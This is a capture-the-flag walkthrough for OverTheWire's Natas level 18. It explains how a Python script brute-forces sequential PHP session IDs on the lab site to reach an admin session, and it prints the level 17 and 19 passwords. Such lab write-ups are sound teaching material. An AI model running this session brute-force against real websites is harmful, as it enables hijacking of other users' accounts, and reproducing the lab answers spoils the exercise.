 # Natas CTF Solutions  

## Natas Level 18  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit session-based authentication to find the password.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas18.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas18`  
- **Password:** Use the password from Natas Level 17:  
```
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```  

![Home_Page](https://github.com/user-attachments/assets/005ad094-aec3-43fa-a202-a5507dbe344b)

---

### **Step 3: Analyze the Webpage**  
- When you try to log in with random credentials, it shows:  
```  
You are logged in as a regular user.  
```

![Web_Page](https://github.com/user-attachments/assets/ccd9ae59-d205-4fa9-8078-424a6665b9c4)

- Viewing the **page source** reveals that the page is handling **PHP session IDs**.

![Page_Source](https://github.com/user-attachments/assets/c7520534-1e9a-4d5a-8663-b15dcc43987e)
 
- The session ID is likely being validated on the server side to distinguish between regular and admin users.  

---

### **Step 4: Enable Debug Mode**  
Try adding `debug` in the URL to reveal additional info:  
```  
http://natas18.natas.labs.overthewire.org/index.php?debug  
```  
✅ This reveals that the session ID is being processed using PHP’s `$_SESSION` and a session-based authentication system.  

![Debug](https://github.com/user-attachments/assets/db52dab1-7e09-4fba-9e2b-9ff6b0e2e0f4)
![Session_ID](https://github.com/user-attachments/assets/5007e78a-7a50-4ca5-9ce6-269112e49deb)

---

### **Step 5: Automate Session ID Brute Force**  
Use this Python script to brute force the session ID:  

```python
import requests
from requests.auth import HTTPBasicAuth

# Authentication details
basicAuth = HTTPBasicAuth('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')

MAX = 640  # PHP sessions typically have IDs up to 640
count = 1

u = "http://natas18.natas.labs.overthewire.org/index.php?debug"

# Start brute-forcing the PHPSESSID
while count <= MAX:
    sessionID = "PHPSESSID=" + str(count)
    headers = {'Cookie': sessionID}
    response = requests.get(u, headers=headers, auth=basicAuth, verify=False)

    if "You are logged in as a regular user" not in response.text:
        print(f"[+] Found session ID: {count}")
        print(response.text)
        break

    count += 1

print("Done!")
```

✅ **How the script works:**  
1. Attempts session IDs from `1` to `640` (common PHP session range).  
2. Sets the `PHPSESSID` using the `Cookie` header.  
3. If the response **does not** show `logged in as a regular user`, it confirms that the session is elevated to admin.  
4. Stops when an admin session is found.  

---

### **Step 6: Output**  
- After running the script, it finds a valid session ID — in this case, **119**.  
- Output example:  
```  
[+] Found session ID: 119
You are logged in as an admin.
```

![Password](https://github.com/user-attachments/assets/6025a0b9-7aff-4fe6-a34b-47a3609dffaa)

---

### **Step 7: Retrieve the Password**  
Once the session is authenticated as admin, the page reveals the password for **Natas Level 19**:  

---

### **✅ Password for Natas Level 19**  
```
tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
```  

---

## 💡 **Lessons Learned**  
✔️ **Session-based Authentication:** Session-based authentication can be vulnerable to brute force if IDs are predictable or short.  
✔️ **PHPSESSID Brute Force:** When PHP session IDs are handled insecurely, they can be guessed or brute-forced.  
✔️ **Automating Attacks:** Python scripts simplify the process of brute-forcing session IDs.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Page Source Code | ![Page_Source](https://github.com/user-attachments/assets/c7520534-1e9a-4d5a-8663-b15dcc43987e) |  
| Step 7 – Found Password | ![Password](https://github.com/user-attachments/assets/6025a0b9-7aff-4fe6-a34b-47a3609dffaa) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 19**:  
👉 [http://natas19.natas.labs.overthewire.org](http://natas19.natas.labs.overthewire.org)  

---
